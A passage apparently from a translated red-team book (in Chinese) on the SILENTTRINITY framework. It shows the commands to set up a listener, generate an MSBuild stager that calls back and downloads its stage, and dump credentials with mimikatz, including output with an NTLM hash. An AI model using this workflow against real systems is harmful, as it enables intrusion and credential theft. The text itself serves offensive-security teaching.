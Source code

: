 SILENTTRINITY 不是作为本地独立程序运行，而是启动一个监听在 5000 端口的服务器，允许多个成员连接、定义监听器、生成有效载荷等，这在团队操作中非常有用。你需要在第一个终端中保持服务器运行，然后打开第二个终端连接到团队服务器，并在 443 端口配置监听器：

```
# Terminal 2

root@Lab:~/# **python3.7 st.py wss://username:**`strongPasswordCantGuess`**@192.168.1.29:5000**
[1] ST >>  **listeners**
[1] ST (listeners)>> **use https**

# Configure parameters
[1] ST (listeners)(https) >> **set Name customListener**
[1] ST (listeners)(https) >> **set CallBackUrls**
**https://www.customDomain.com/news-article-feed**

# Start listener
[1] ST (listeners)(https) >> **start**
[1] ST (listeners)(https) >> list
Running:
customListener >> https://192.168.1.29:443
```

一旦连接成功，接下来的逻辑步骤是生成一个有效载荷以在目标上执行。我们选择一个包含内联 C#代码的.NET 任务，通过一个名为 MSBuild 的.NET 工具，可以在运行时编译和执行：

```
[1] ST (listeners)(https) >> **stagers**

[1] ST (stagers) >> **use msbuild**
[1] ST (stagers) >> **generate customListener**
[+] Generated stager to ./stager.xml
```

如果我们仔细查看*stager.xml*文件，可以看到它嵌入了一个名为*naga.exe*（*SILENTTRINITY/core/teamserver/data/naga.exe*）的可执行文件的 base64 编码版本，该文件连接到我们设置的监听器，然后下载一个包含 Boo-Lang DLL 和脚本的 ZIP 文件，用于启动环境。

一旦我们使用 MSBuild 在运行时编译并执行此有效载荷，就会在目标机器上运行完整的 Boo 环境，准备执行任何我们发送的恶意有效载荷：

```
# Start agent

PS C:\> **C:\Windows\Microsoft.Net\Framework\v4.0.30319\MSBuild.exe stager.xml**

[*] [TS-vrFt3] Sending stage (569057 bytes) ->  192.168.1.30...
[*] [TS-vrFt3] New session 36e7f9e3-13e4-4fa1-9266-89d95612eebc connected! (192.168.1.30)
[1] ST (listeners)(https) >> **sessions**
[1] ST (sessions) >> **list**
Name           >> User         >> Address     >> Last Checkin
36e7f9e3-13... >> *wk_adm@PIANO>> 192.168.1.3 >> h 00 m 00 s 04
```

请注意，与其他两个框架不同，我们没有费心定制有效载荷以躲避 Windows Defender。它就这样工作……暂时！

我们可以交付当前的 69 个后期利用模块，涵盖从在内存中加载任意程序集（.NET 可执行文件）到常规的 Active Directory 侦察和凭证转储等功能：

```
[1] ST (sessions) >> **modules**
[1] ST (modules) >> **use boo/mimikatz**
[1] ST (modules)(boo/mimikatz) >> **run all**

[*] [TS-7fhpY] 36e7f9e3-13e4-4fa1-9266-89d95612eebc returned job result
(id: zpqY2hqD1l)
[+] Running in high integrity process
`--snip--`
    msv :
    [00000003] Primary
    * Username : wkadmin
 * Domain   : PIANO.LOCAL
    * NTLM     : adefd76971f37458b6c3b061f30e3c42
`--snip--`
```